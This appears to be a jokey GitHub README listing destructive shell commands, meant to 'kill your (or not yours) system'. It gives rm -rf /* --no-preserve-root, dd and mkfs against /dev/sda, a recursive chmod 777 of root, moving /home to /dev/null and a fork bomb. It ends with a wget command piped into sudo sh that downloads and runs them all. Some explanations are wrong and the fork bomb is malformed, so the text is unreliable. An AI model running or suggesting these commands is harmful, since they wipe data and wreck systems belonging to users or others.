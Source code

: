 # Dumb ways to kill your system
Kill your (or not yours) system with style. Many ways on many languages to make your system be snapped by thanos itself.

# Bash

The commands above should work on Android, Linux, MacOS, and others systems who run on the bash interpreter.
<br />
<br />
```
sudo chmod -R 777 /*; 
```
This will just make your entire system acessible using permissions.
<br />
<br />

```
sudo rm -rf /* --no-preserve-root;
```
Well, this surely will wipe down your entire system.
<br />
<br />

```
dd if=/dev/null of=/dev/sda; 
```
This will change every bite of your drive to 0's.
<br />
<br />

```
sudo mv /home/* /dev/null; 
```
This command will to move your entire users folder to the absolute void.
<br />
<br />

```
sudo mkfs.ext3 /dev/sda; 
```
This will format your drive entirely.
<br />
<br />

```
: () {: |: &} ;:
```
I's called fork bomb, and should make your system crashes, if you have one.
<br />
<br />

```
wget https://raw.githubusercontent.com/willnaoosmit/Dumb-ways-to-kill-your-system/master/bash/script.sh -O | sudo sh
```
This command will download and run automatically the file with all the bash commands above.
<br />
<br />

